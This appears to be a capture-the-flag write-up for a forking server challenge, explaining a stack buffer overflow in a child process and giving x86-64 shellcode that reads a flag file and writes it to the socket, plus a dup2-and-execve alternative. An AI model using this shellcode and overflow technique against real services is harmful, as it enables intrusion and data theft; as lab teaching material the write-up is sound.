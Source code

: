 # server

This challenge is very similar to the [Only Read Write](../onlyreadwrite/README.md) challenge. The only difference is that the binary now is a server that listens on a port and forks a child process that reads in a buffer. Then we have to write not on stdout but on the socket file descriptor.

```x86asm
    mov r12, rdi
    mov rax, 0x101010101010101
    push rax
    mov rax, 0x101010101010101 ^ 0x67616c662f2e
    xor [rsp], rax
    mov rdi, rsp
    xor edx, edx /* 0 */
    xor esi, esi /* 0 */
    /* call open() */
    push SYS_open /* 2 */
    pop rax
    syscall
    /* call read(fd_open, 'rsp', 0x64) */
    push rax
    xor eax, eax /* SYS_read */
    pop rdi
    push 0x64
    pop rdx
    mov rsi, rsp
    syscall
    /* write(fd_socket, buf='rsp', n=0x64) */
    push r12
    pop rdi
    push 0x64
    pop rdx
    mov rsi, rsp
    /* call write() */
    push SYS_write /* 1 */
    pop rax
    syscall
```

In this case I used R12 to store the socket file descriptor. The shellcode is the same as the previous challenge, except for the write part were we put R12 in RDI, and then we call write.

The process forked from the server executes this function

```c
void prog(int socket_fd) {
  size_t n;
  char name [1008];

  get_name(socket_fd, name);
  write(socket_fd, "Hello Mr.", 9);
  n = strlen(name);
  write(socket_fd, name, n);
  return;
}
```

get_name() is reading 4096 bytes in a buffer of 1008 bytes, so we have a buffer overflow. We overflow the buffer with the shellcode and modify the return address to point to it. We know the address of the shellcode because it is in the .bss section and the binary is not PIE.

## Alternative solution

One can also use the syscall `dup2` to redirect the socket file descriptor to stdout, and then use the shellcode from the previous challenges.

```x86asm
xor rax, rax
mov rax, 0x21 /* dup2 */
mov rsi, 0x0
/* mov rdi, rdi <- the fd is already in rdi */
syscall
```

Then do the same for stdin. And then just a normal execve will do the job.

Note that I'm not overwriting the rdi register (that should contain the `newfd` argument) because the file descriptor is already in rdi.

The complete exploit is in [script.py](script.py).
